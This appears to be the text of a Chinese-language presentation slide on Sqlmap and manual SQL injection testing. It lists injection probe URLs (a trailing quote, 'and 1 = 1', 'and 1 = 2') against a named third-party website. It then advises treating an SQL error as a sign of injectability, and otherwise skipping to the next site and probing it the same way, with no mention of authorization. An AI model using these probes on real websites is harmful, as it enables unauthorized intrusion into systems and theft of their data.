

Sqlmap
	验证网站是否可以进行SQL注入，可以通过注入点测试

http://www.cinemax-prod.co.il/project.asp?item_id=10’
http://www.cinemax-prod.co.il/project.asp?item_id=10 and 1 = 1
http://www.cinemax-prod.co.il/project.asp?item_id=10 and 1 = 2

	如果页面返回一个SQL错误，说明页面可能存在SQL注入点；如果页面加载正常显示或者重定向到一个不同的页面，跳过这个网站，用同样的方法去测试下一个网站。